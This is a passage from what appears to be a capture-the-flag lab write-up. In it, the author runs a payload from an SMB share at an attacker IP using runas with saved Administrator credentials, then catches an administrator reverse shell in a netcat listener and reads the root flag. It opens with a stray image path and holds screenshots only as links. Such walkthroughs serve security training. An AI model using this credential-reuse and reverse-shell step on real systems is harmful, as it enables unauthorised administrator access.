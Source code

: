 - after we've placed the file in our smb share on our smb server, we can then run the payload using runas

```shell
runas /env /noprofile /savecred /user:ACCESS\Administrator "\\10.10.14.6\smb\evil.exe"
```

![](assets/Access_assets/Pasted%20image%2020231115195612.png)

- and we can see that in our nc listener, we also got a shell as administrator

![](assets/Access_assets/Pasted%20image%2020231115200239.png)

- and we can view the root file

![](assets/Access_assets/Pasted%20image%2020231115200312.png)

